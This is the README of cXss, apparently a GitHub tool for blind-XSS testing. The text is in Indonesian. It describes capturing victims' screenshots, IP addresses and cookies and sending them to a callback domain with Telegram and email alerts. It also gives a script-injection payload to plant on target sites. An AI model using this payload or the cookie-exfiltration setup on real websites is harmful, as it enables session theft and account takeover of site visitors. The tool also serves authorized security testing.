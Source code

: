 # cXss
Capture XSS

## ScreenShot
![Alt text](https://raw.githubusercontent.com/vsec7/cXss/master/screenshot/1.png "screenshot")
![Alt text](https://raw.githubusercontent.com/vsec7/cXss/master/screenshot/2.png "screenshot")

#### Created By : Versailles ~ Sec7or Team

cXss adalah Capture XSS / CansXSS :p digunakan untuk Testing Blind XSS.

*Untuk yang ingin membuat logger XSS sendiri seperti xsshunter.*

### FEATURES
	- Mengirim Notifikasi ke Telegram dan Email
	- cXss men-capture beberapa data korban yg Ter-Trigger XSS diantara nya :
		- Screenshoot
		- Victim IP address
		- Victim Cookies
		- dll

### INSTALLATION
git clone / upload repo ini di web server anda

#### Edit File index.js , ganti cans.evils.in dengan domain anda
```
    var url = "http://cans.evils.in/callback";
```

#### Edit file inc/conf.php dengan konfigurasi anda
```
<?php
include("function.php");

// Configurations

// jsonstore.io
$db = ""; 

// Password For Login
$pass = "a820fa8139a40b4590608dd738348d0a"; // default md5 pass : cans , Empty this field if not used

// Set Your Telegram Bot Token & Telegram Recipient ID
$token = ""; // Empty this field if not used
$idRecipient = ""; // Empty this field if not used

// Set Your Email Address
$email = ""; // Empty this field if not used

// -----------------------------------------------------------------------------------------------
$warna = rand_color(); // you can set rand_color() OR which one "primary","success","danger","warning","secondary"

```

### HOW TO USE ?
Sisipkan salah satu payload xss di web target .

```
"><script src=http://yourdomain></script>
```
#### To See Result :
**yourdomain.com/cans/**

## PERHATIAN !
*Hanya untuk pembelajaran dan kegiatan Ethical Of Hacking, Hal negatif yang anda perbuat dengan tool ini diluar tanggung jawab author*

Demo : **http://cans.evils.in**

Donation Paypal : vsec48@gmail.com :v

Thanks :) I miss You Cans .. :)
